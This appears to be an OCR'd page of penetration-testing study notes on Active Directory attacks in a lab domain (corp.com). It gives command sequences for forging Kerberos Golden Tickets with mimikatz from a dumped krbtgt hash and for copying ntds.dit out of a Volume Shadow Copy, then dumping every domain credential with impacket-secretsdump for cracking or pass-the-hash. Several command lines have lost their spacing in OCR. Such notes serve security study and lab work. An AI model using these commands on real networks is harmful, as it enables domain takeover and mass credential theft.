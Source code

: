 ## GOLDEN TICKETS:
The secret key that encrypts TGT is password hash of krbtgt user. If we obtain that we can forge our own custom tickets called GOLDEN TICKETS.

We can forge a TGT stating non-privileged user is a Domain Admin user and DC will trust because its encrypted correctly. Thus our non- privileged user will become Domain Admin.

```
PsExec64.exe \\DC1cmd.exe (Access should be denied)  
Login to DC using domain administrator creds and run mimikatz 
lsadump::lsa /patch
```

Take note of SID and ntlm hash of krbtgt Steps after this you can try on any machine

• kerberos::purge(BeforecreatingGoldenTicketletsdeleteexistingkerberosticket)

kerberos::golden/user:jen/domain:corp.com/sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt (any valid user in domain that we have access, User ID 500 for Built-In Administrator for domain)

misc::cmd
    
PsExec.exe\\dc1cmd.exe(usehostname.ipwillthrowerror)
    
whoami/groups
    
## SHADOW COPIES:
    
Known as Volume Shadow Service (VSS) is a Microsoft backup technology that allows creation of snapshots of files or entire volumes. We can extract ntds.dit file and copy that to kali and extract every user credential offline from kali

```
vshadow.exe -nw -p C:  
Note the path in Shadow copy device name:  
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak (first path is above point path)
reg.exe save hklm\system c:\system.bak  
File transfer both files to kali  
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL 
We can crack or do PTH
```

